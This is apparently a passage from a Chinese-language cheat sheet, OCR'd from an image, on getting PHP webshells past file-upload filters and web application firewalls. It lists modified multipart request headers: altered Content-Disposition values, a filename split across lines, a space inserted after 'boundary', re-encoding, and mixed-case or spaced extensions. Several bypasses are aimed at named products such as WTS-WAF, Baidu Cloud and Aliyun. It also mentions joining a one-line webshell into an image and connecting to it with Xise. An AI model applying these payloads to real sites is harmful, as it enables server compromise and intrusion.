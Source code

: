 6.HTTP header 属性值绕过

```
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php" 
```

7.HTTP header 属性名称绕过

```
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php". 
```

8.等效替换绕过

```
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。 
```

9.修改编码绕过

```
使用UTF-16、Unicode、双URL编码等等 
```

#### WTS-WAF 绕过上传

```
原内容：
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php" 
```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php" 
```

#### 阿里云上传绕过

```
源代码：
Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; name="img_crop_file"; filename="1.php"
没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。 
```
